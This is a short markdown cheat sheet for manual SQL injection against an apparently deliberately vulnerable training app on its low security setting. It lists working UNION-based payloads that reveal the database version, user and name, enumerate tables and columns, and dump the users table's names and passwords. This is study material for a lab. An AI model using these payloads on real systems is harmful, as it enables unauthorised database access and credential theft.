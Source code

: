 # Manual SQL Injection

__Security (Low)__

User Id -> 1

### Test Vulnerability

```bash
 %' or '1'='1 
```
 Always True Cond.) [Null id with % and then always true 1=1]

### Database Version Selection-->
```bash 
%' or 0=0 union select null, version() #
 ```  
(# represents the comment line in SQL query) [0=0 or 1=1]

### Who owns the DB? 
```bash 
%' or 0=0 union select null, user() # 
```

### DB name employed to this particular site
```bash
 %' or 0=0 union select null, database() # 
```

### Displaying tables as information scema
```bash 
%' and 1=0 union select null, table_name from information_schema.tables where table_name like 'user%' # 
```


[guessing table name start with prefix user and then anything could be...]

```bash
 %' and 1=0 union select null, table_name from information_schema.tables # 
``` 
[displaying all the tables]

### Interest Zone--Users Table-->

```bash
 %' and 1=0 union select null, concat(table_name,0x0a, column_name) from information_schema.columns where table_name = 'users' # 
```
[0x0a for new line between table name and column name--hexadecimal code for sql]

### Extract the columns information

```bash 
%' and 1=0 union select null, concat(first_name,0x0a, last_name,0x0a,user,0x0a,password,0x0a,avatar) from users # 
```
